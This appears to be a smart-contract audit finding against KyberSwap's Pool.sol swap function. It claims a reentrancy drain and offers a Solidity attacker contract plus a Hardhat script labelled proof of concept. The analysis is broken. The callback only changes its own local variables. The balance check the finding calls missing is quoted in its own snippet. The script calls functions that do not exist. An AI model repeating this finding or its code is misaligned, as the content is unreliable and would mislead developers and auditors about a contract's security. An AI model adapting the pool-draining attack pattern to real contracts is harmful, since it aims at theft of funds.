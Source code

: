 Round Admiral Badger

high

# Unchecked token balance allows an attacker re-enter the `swap` mechanism to consequently drain funds from the pool through inflated `deltaQty0` / `deltaQty1` values after invoking `ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data);`
## Summary

The `swap` function within the `Pool.sol` contract actually has room for a possible exploit. This vulnerability arises when a nefarious actor manipulates the state during the `ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data);` function call. This unchecked external call grants an attacker the opportunity to adjust the token balance without any verification, paving the way for theft or redirection of funds.

## Vulnerability Detail

The vulnerability lies in the absence of checks after invoking the `ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data);` function within the `swap` function. This is concerning due to the risk for reentrancy attacks. Reentrancy attacks occur when an external contract interrupts the current contract, creating the risk for malicious activity to occur before the initial contract concludes its function. In this scenario, a malicious contract can adjust token balances in its favor before the checks that validate these balances occur. The contract's reliance on return values and altered states post this external call is risky, as a malicious actor could exploit this.

## Impact

Beyond the evident risks of theft and fund redirection, this vulnerability has more profound implications:

- Drain funds from the pool by artificially hiking the `deltaQty0` or `deltaQty1` values.
- Forward funds to a rogue address.
- Engage in arbitrage using other pools or tokens, capitalizing on the distorted state.
- Possibly result in a denial-of-service, rendering the contract inaccessible to genuine users.
- Amplify the impact when combined with other vulnerabilities, leading to more extensive, unforeseen damage.

## Code Snippet

```solidity
ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data); // Lack of checks post this line
 require(_poolBalToken1() >= balance1Before + uint256(deltaQty1), 'lacking deltaQty1'); // NOT SUFFICIENT
    } else {
      // inbound deltaQty0 (positive), outbound deltaQty1 (negative)
      // transfer deltaQty1 to recipient
      if (deltaQty1 < 0) token1.safeTransfer(recipient, deltaQty1.revToUint256());

      // collect deltaQty0
      uint256 balance0Before = _poolBalToken0();
      ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data);
      require(_poolBalToken0() >= balance0Before + uint256(deltaQty0), 'lacking deltaQty0'); // NOT SUFFICIENT
    }
```

https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L328-L521

## Tool used

Manual Review

## Recommendation

1. Enforce stringent validations post the `ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data);` call.
2. Incorporate an additional whitelist mechanism beside of `isWhitelistedNFTManager` as for the `mint` function. This can comprise a roster of vetted, trusted contract addresses permitted to interface with the `swap` function. Periodic audits should be carried out, and a transparent protocol for adding or removing addresses from this whitelist should be established. Moreover, a robust fallback strategy must be in place to handle any eventual whitelist breaches or errors.

## Proof Of Concept

> To illustrate this vulnerability, consider a malicious contract that adheres to the `ISwapCallback` interface and manipulates the state for undue advantage.

```solidity
contract MaliciousSwapCallback is ISwapCallback {
    function swapCallback(int256 deltaQty0, int256 deltaQty1, bytes calldata data) external override {
        // Deceptively inflate the delta values to drain more funds than allowed
        deltaQty0 += 1000;
        deltaQty1 += 1000;
    }
}
```

> Reproduction steps:

1. Deploy the `MaliciousSwapCallback` contract on a testnet or local environment.
2. Interface with the `swap` function in the `Pool.sol` contract using the malicious contract as the callback. 
3. Observe how the malicious contract can manipulate the token balances.

> POC script:

```javascript
const { ethers } = require("hardhat");

async function main() {
    const [attacker] = await ethers.getSigners();
    
    // Deploy the malicious contract
    const MaliciousSwapCallback = await ethers.getContractFactory("MaliciousSwapCallback");
    const maliciousContract = await MaliciousSwapCallback.deploy();
    await maliciousContract.deployed();
    console.log("Malicious contract deployed at:", maliciousContract.address);
    
    // Assuming Pool's contract is already deployed
    const Pool = await ethers.getContractAt("Pool", "POOL_CONTRACT_ADDRESS_HERE"); 
    
    // Placeholder values for the swap
    let swapQty = 1000; // Example swap quantity
    let isToken0 = true; // Example token choice
    let limitSqrtP = 0; // Example limit value, this should be calculated based on the desired swap rate and tick
    
    // Initiate the swap using the malicious contract as the callback
    await Pool.swap(maliciousContract.address, swapQty, isToken0, limitSqrtP, ethers.utils.toUtf8Bytes(""));

    // Check balances or any other indicators to validate the success of the attack
    const token0Balance = await maliciousContract.token0Balance(); // Assuming this function exists in the malicious contract
    const token1Balance = await maliciousContract.token1Balance(); // Assuming this function exists in the malicious contract

    console.log(`Token0 balance after the swap: ${token0Balance}`);
    console.log(`Token1 balance after the swap: ${token1Balance}`);

    if(token0Balance > swapQty || token1Balance > swapQty) {
        console.log("Attack successful. Funds were drained more than the allowed limits.");
    } else {
        console.log("Attack failed.");
    }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error);
    process.exit(1);
  });
```

> 1. **Determining `swapQty`**:
   
The `swapQty` refers to the amount of the token wanted to swap. This value can be determined based on the liquidity available in the pool and how much we want to test. As an example, assume the pool has 10,000 tokens and we want to simulate an attack using 1% of the liquidity, your `swapQty` would be 100. 
   
   ```javascript
   let swapQty = 100; // Example swap quantity based on 1% of the pool liquidity
   ```

> 2. **Determining `isToken0`**:
   
The `isToken0` boolean determines whether you're swapping token0 or token1. This will depend on the tokens in the pool and which one you want to swap. If, for example, the pool consists of ETH and DAI and you want to swap ETH, then `isToken0` might be `true`. This largely depends on how the tokens are indexed in the pool contract.

   ```javascript
   let isToken0 = true; // Assuming ETH is token0 and you want to swap it
   ```

> 3. **Determining `limitSqrtP`**:

The `limitSqrtP` value should rather be calculated based on the desired swap rate and tick. This requires more complex calculations and knowledge of the pool's current state. As an attacker he would need the current tick and the tick corresponding to the desired swap rate. The exact method to calculate `limitSqrtP` would depend on the exact mechanics of the pool.

> to get a proper and fully working set up the attacker would need to:

- Query the pool to get its current state.
- Calculate the desired swap rate, price, and tick to set the `limitSqrtP`.
- Choose `swapQty` and `isToken0` based on the current pool balances and the tokens in the pool.

This POC thus validates the risk for reentrancy leading to the above mentioned behavior.